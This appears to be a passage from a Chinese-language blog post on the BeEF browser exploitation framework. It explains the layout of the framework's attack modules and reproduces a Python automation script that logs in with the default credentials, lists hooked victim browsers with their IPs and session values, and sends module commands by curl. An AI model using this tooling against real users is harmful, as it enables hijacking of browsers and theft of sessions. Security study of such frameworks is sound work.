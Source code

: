 ####**modules目录**
集合了BEEF的各个攻击模块，一般一个攻击模块分为3个文件：command.js、config.yaml、module.rb。这样的结构可以很方便地进行模块添加，易于扩展。
config.yaml: 攻击模块相关信息，如名称、描述、分类、作者、适用场景等
module.rb:文件定义了该攻击模块的类，继承了BEFF::Core::Command类，在通用command类的基础上定义一些该模块特有的处理函数，如使用较多的一个函数是post_execute，即攻击进行后进行的操作（一般为保存结果）

##**自动化脚本python**
最近在学python写工具，所以最后收藏一个大佬分享的beef自动化脚本【加上了自己的理解】

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# ** Author: ssooking
# ** Name： AutoBeef.py

import json
import urllib2
import time

hostlist = []
hostdict = {}


# 1、获得API key，每次开启beef都会不一样
def getauthkey(host):
	# host 是hook页面的url
	# /api/admin/login是用户登录接口，通过
	# 该接口登录之后，我们可以得到用于会话认证的API key
    apiurl =  host + "api/admin/login"		 
    logindata = {
        "username":"beef",
        "password":"beef"
    }
	 # 对数据进行JSON格式化编码
    jdata = json.dumps(logindata)            
	 # 生成页面请求的完整数据
    req = urllib2.Request(apiurl, jdata)     
	# 发送页面请求
    response = urllib2.urlopen(req)           
	# 获取服务器返回的页面信息，数据类型为str
    resdata = response.read()                 
	# 把数据解析成python对象，此时返回dict数据
    jsondata =  json.loads(resdata)           
    return jsondata['token']

	
# 2、获得hook主机列表,session值就是cookie
def getHookedBrowsersSession(host,authkey):
	# 用到了前面的API key
    f = urllib2.urlopen(host + "/api/hooks?token=" + authkey)
    data = json.loads(f.read())
    hookonline = data['hooked-browsers']['online']
    for x in hookonline:
        hookid = hookonline[x]['id']
        hookip = hookonline[x]['ip']
        hooksession = hookonline[x]['session']
        if hookid not in hostdict:
            hostdict[hookid] = hooksession
            print "\n[+] Hooked host id:  " + bytes(hookid) + "\n   >>> IP: " + bytes(hookip) + "\n   >>> Session: " + hooksession

#3、模块使用	
# 终端命令：curl -i -H "Content-Type: application/json; charset=UTF-8" -d '{各个模块需要的额外的参数}' http://xxxxx/api/modules/【受害者浏览器】session/模块id?token=【authkey】
#受害者在试图关闭选项卡时会向用户显示"关闭确认"对话框，
```